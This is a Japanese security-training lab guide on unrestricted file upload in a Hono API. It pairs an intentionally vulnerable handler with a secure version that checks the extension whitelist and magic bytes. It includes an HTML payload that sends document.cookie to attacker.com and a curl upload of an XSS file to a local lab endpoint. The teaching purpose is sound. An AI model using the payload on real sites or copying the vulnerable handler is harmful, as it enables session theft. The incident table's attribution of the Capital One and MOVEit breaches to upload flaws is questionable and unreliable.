


# Unrestricted File Upload — ファイルアップロードの検証不備

> ファイルの種類や内容を一切検証せずに受け入れてしまうことで、攻撃者がWebシェルや悪意あるスクリプトをサーバーにアップロードし、任意のコードを実行できてしまう脆弱性を学びます。

---

## 対象ラボ

| 項目 | 内容 |
|------|------|
| **概要** | ファイルアップロード機能が拡張子・MIMEタイプ・ファイル内容のいずれも検証しないため、`.html` や `.js` などの実行可能ファイルをアップロードし、サーバー経由で配信・実行できる |
| **攻撃例** | `malicious.html`（XSSペイロード入り）をアップロードし、配信URLにアクセスしてスクリプトを実行 |
| **技術スタック** | Hono API (multipart/form-data) |
| **難易度** | ★★☆ 中級 |
| **前提知識** | HTTPリクエストの基本、Content-Typeヘッダーの役割、ファイル拡張子とMIMEタイプの関係 |

---

## この脆弱性を理解するための前提

### ファイルアップロードの仕組み

Webアプリケーションでは、ユーザーがプロフィール画像やドキュメントをアップロードする機能が一般的である。ブラウザは `multipart/form-data` 形式でファイルデータをサーバーに送信し、サーバーはそれを受け取って保存する。

```
POST /api/upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----boundary

------boundary
Content-Disposition: form-data; name="file"; filename="photo.jpg"
Content-Type: image/jpeg

[バイナリデータ]
------boundary--
```

サーバーはファイルを保存した後、そのファイルを静的ファイルとして配信する。ブラウザはファイルの拡張子やContent-Typeに基づいてファイルを解釈・実行する。

### どこに脆弱性が生まれるのか

開発者が「ユーザーは画像しかアップロードしないだろう」と仮定し、ファイルの種類を検証せずに保存・配信してしまう場合に問題が発生する。攻撃者はファイル名や内容を自由に制御できるため、HTMLファイルやスクリプトファイルをアップロードし、サーバーの配信URLを通じてブラウザに実行させることができる。

```typescript
// ⚠️ この部分が問題 — ファイルの種類を一切検証していない
app.post('/api/upload', async (c) => {
  const body = await c.req.parseBody();
  const file = body['file'] as File;

  // ファイル名もMIMEタイプも検証せず、そのまま保存
  const savePath = `./uploads/${file.name}`;
  await Bun.write(savePath, file);

  return c.json({ url: `/uploads/${file.name}` });
});
```

---

## 攻撃の仕組み



### 攻撃のシナリオ

1. **攻撃者** が悪意あるHTMLファイルを作成する

   通常のファイルアップロードフォームを使い、画像ではなくJavaScriptを含むHTMLファイルをアップロードする。サーバーは拡張子やContent-Typeを検証しないため、どんなファイルでも受け入れてしまう。

   ```html
   <!-- malicious.html -->
   <script>
     // Cookieを攻撃者のサーバーに送信
     fetch('https://attacker.com/steal?cookie=' + document.cookie);
   </script>
   ```

2. **サーバー** がファイルをそのまま保存し、配信URLを返す

   サーバーはファイルの内容を検証せず `./uploads/malicious.html` として保存する。レスポンスとして `/uploads/malicious.html` というURLが返される。

   ```json
   { "url": "/uploads/malicious.html" }
   ```

3. **攻撃者** が配信URLを被害者に送る

   被害者がこのURLにアクセスすると、ブラウザは `.html` ファイルをHTMLとして解釈し、埋め込まれたJavaScriptが同一オリジンで実行される。これにより、被害者のCookieやセッション情報が攻撃者に送信される。

### なぜ成功するのか

| 条件 | 説明 |
|------|------|
| ファイル種別の未検証 | サーバーが拡張子・MIMEタイプ・マジックバイトのいずれも検証しないため、任意のファイルをアップロードできる |
| 同一オリジンでの配信 | アップロードされたファイルがアプリケーションと同じオリジンから配信されるため、JavaScriptがアプリのCookieやDOMにアクセスできる |
| Content-Type の未設定 | サーバーが配信時にContent-Typeを強制しないため、ブラウザが拡張子に基づいてファイルを解釈・実行する |

### 被害の範囲

- **機密性**: 同一オリジンで実行されるXSSにより、セッションCookie・個人情報・CSRF トークンが窃取される
- **完全性**: Webシェルがアップロードされた場合、サーバー上のファイルの読み取り・書き換え・削除が可能になる
- **可用性**: 大量の巨大ファイルのアップロードによるディスク枯渇、またはサーバープロセスの妨害が可能

---

## 対策



### 根本原因

サーバーが **クライアントから送られるファイルの内容を無条件に信頼** し、ファイルの種類（拡張子・MIMEタイプ・実際のファイル内容）を検証せずに保存・配信していることが根本原因。ユーザー入力と同様に、アップロードされるファイルも信頼できない外部入力として扱う必要がある。

### 安全な実装

ファイルアップロード時に、拡張子のホワイトリスト検証とマジックバイト（ファイルの先頭バイト列）によるコンテンツ検証を行う。これにより、許可されたファイル形式のみが受け入れられ、拡張子を偽装したファイルも検出できる。

```typescript
// ✅ 拡張子のホワイトリストとマジックバイトで二重検証
const ALLOWED_EXTENSIONS = ['.jpg', '.jpeg', '.png', '.gif'];
const MAGIC_BYTES: Record<string, number[]> = {
  '.jpg':  [0xFF, 0xD8, 0xFF],
  '.jpeg': [0xFF, 0xD8, 0xFF],
  '.png':  [0x89, 0x50, 0x4E, 0x47],
  '.gif':  [0x47, 0x49, 0x46, 0x38],
};

app.post('/api/upload', async (c) => {
  const body = await c.req.parseBody();
  const file = body['file'] as File;
  const ext = path.extname(file.name).toLowerCase();

  // 拡張子のホワイトリスト検証
  if (!ALLOWED_EXTENSIONS.includes(ext)) {
    return c.json({ error: '許可されていないファイル形式です' }, 400);
  }

  // マジックバイトでファイル内容を検証（拡張子偽装の防止）
  const buffer = new Uint8Array(await file.arrayBuffer());
  const expected = MAGIC_BYTES[ext];
  const actual = Array.from(buffer.slice(0, expected.length));
  if (!expected.every((b, i) => b === actual[i])) {
    return c.json({ error: 'ファイル内容が拡張子と一致しません' }, 400);
  }

  // ファイル名をランダムに生成（元のファイル名を使わない）
  const safeName = `${crypto.randomUUID()}${ext}`;
  await Bun.write(`./uploads/${safeName}`, buffer);

  return c.json({ url: `/uploads/${safeName}` });
});
```

#### 脆弱 vs 安全: コード比較

```diff
  app.post('/api/upload', async (c) => {
    const body = await c.req.parseBody();
    const file = body['file'] as File;
+   const ext = path.extname(file.name).toLowerCase();
+
+   // 拡張子のホワイトリスト検証
+   if (!ALLOWED_EXTENSIONS.includes(ext)) {
+     return c.json({ error: '許可されていないファイル形式です' }, 400);
+   }
+
+   // マジックバイトでファイル内容を検証
+   const buffer = new Uint8Array(await file.arrayBuffer());
+   const expected = MAGIC_BYTES[ext];
+   const actual = Array.from(buffer.slice(0, expected.length));
+   if (!expected.every((b, i) => b === actual[i])) {
+     return c.json({ error: 'ファイル内容が拡張子と一致しません' }, 400);
+   }

-   const savePath = `./uploads/${file.name}`;
-   await Bun.write(savePath, file);
-   return c.json({ url: `/uploads/${file.name}` });
+   const safeName = `${crypto.randomUUID()}${ext}`;
+   await Bun.write(`./uploads/${safeName}`, buffer);
+   return c.json({ url: `/uploads/${safeName}` });
  });
```

脆弱なコードではファイルの検証が一切なく、元のファイル名でそのまま保存される。安全なコードでは拡張子のホワイトリスト検証とマジックバイト検証の二重チェックを行い、ファイル名もランダムに生成することで、ファイルの推測やパストラバーサルも防止している。

### その他の防御策

| 対策 | 種類 | 説明 |
|------|------|------|
| 拡張子ホワイトリスト + マジックバイト検証 | 根本対策 | 許可するファイル形式を限定し、実際のファイル内容が拡張子と一致するかを検証する。これが最も効果的で必須 |
| 別ドメインでの配信 | 多層防御 | アップロードファイルをアプリとは別のドメイン（例: `cdn.example.com`）から配信し、同一オリジンでのスクリプト実行を防ぐ |
| Content-Disposition: attachment の設定 | 多層防御 | 配信時にこのヘッダーを設定し、ブラウザにファイルをインラインで表示せずダウンロードさせる |
| ファイルサイズ制限 | 多層防御 | アップロードファイルのサイズに上限を設け、ディスク枯渇攻撃を防ぐ |
| ウイルススキャン | 検知 | アップロードされたファイルをウイルススキャナで検査し、マルウェアを検出する |

---

## ハンズオン手順

### Step 1: 脆弱バージョンで攻撃を体験

**ゴール**: 悪意あるHTMLファイルをアップロードし、ブラウザで実行されることを確認する

1. 開発サーバーを起動する

   ```bash
   cd backend && pnpm dev
   ```

2. 悪意あるHTMLファイルを作成してアップロードする

   ```bash
   # 悪意あるHTMLファイルを作成
   echo '<h1>XSS!</h1><script>alert("攻撃成功: " + document.cookie)</script>' > /tmp/malicious.html

   # 脆弱なエンドポイントにアップロード
   curl -X POST http://localhost:3000/api/labs/file-upload/vulnerable/upload \
     -F "file=@/tmp/malicious.html"
   ```

3. 返されたURLにブラウザでアクセスする

   - ブラウザがHTMLファイルを解釈し、JavaScriptが実行される
   - アラートダイアログに Cookie の内容が表示される
   - **この結果が意味すること**: サーバーがファイルの種類を検証せず保存・配信しているため、任意のスクリプトが同一オリジンで実行できる

### Step 2: 安全バージョンで防御を確認

**ゴール**: 同じ攻撃が拡張子検証とコンテンツ検証により失敗することを確認する

1. 安全なエンドポイントで同じ攻撃を試みる

   ```bash
   # 同じHTMLファイルを安全なエンドポイントにアップロード
   curl -X POST http://localhost:3000/api/labs/file-upload/secure/upload \
     -F "file=@/tmp/malicious.html"
   ```

2. 結果を確認する

   - `400 Bad Request` が返され、「許可されていないファイル形式です」とエラーになる
   - 正規の画像ファイル（`.jpg`, `.png`）のみがアップロードできる

3. コードの差分を確認する

   - `backend/src/labs/step06-server-side/file-upload.ts` の脆弱版と安全版を比較
   - **どの行が違いを生んでいるか** に注目: 拡張子のホワイトリスト検証とマジックバイト検証

### 確認ポイント

以下を自分の言葉で説明できれば、このラボは完了です:

- [ ] ファイルアップロード攻撃が発生するための条件は何か
- [ ] 攻撃者はどんなファイルをアップロードし、サーバーでどう処理され、結果として何が起きるか
- [ ] MIMEタイプの検証だけでは不十分な理由は何か（Content-Typeヘッダーは偽装可能）
- [ ] 安全な実装の二重検証（拡張子 + マジックバイト）は「なぜ」この攻撃を無効化するのか

---

## 実装メモ

| 項目 | パス |
|------|------|
| 脆弱エンドポイント | `/api/labs/file-upload/vulnerable/upload` |
| 安全エンドポイント | `/api/labs/file-upload/secure/upload` |
| バックエンド | `backend/src/labs/step06-server-side/file-upload.ts` |
| フロントエンド | `frontend/src/features/step06-server-side/pages/FileUpload.tsx` |

- 脆弱版ではファイル名・拡張子・MIMEタイプ・内容のいずれも未検証で保存
- 安全版では拡張子ホワイトリスト + マジックバイト検証 + ランダムファイル名で保存
- アップロード先ディレクトリは静的ファイルとして配信される設定とする

---

## 現実世界での事例

| 年 | インシデント | 概要 |
|----|-------------|------|
| 2019 | Capital One | S3バケットへのファイルアップロード機能の不備とSSRFを組み合わせ、1億人以上の顧客情報が漏洩。アップロード機能の検証不備が攻撃の起点の一つとなった |
| 2023 | MOVEit Transfer | ファイル転送ソフトウェアの脆弱性を悪用し、数千の組織からデータが窃取された。ファイル処理の検証不備が根本原因の一つ |

---

## 関連ラボ

| ラボ | 関連性 |
|------|--------|
| [XSS](../step02-injection/xss.md) | アップロードしたHTMLファイルが同一オリジンで配信される場合、Stored XSSと同等の攻撃が可能になる |
| [パストラバーサル](../step05-access-control/path-traversal.md) | ファイル名に `../../` を含めることで、意図しないディレクトリにファイルを書き込むパストラバーサル攻撃と組み合わせられる |

---

## 参考資料

- [OWASP - Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)
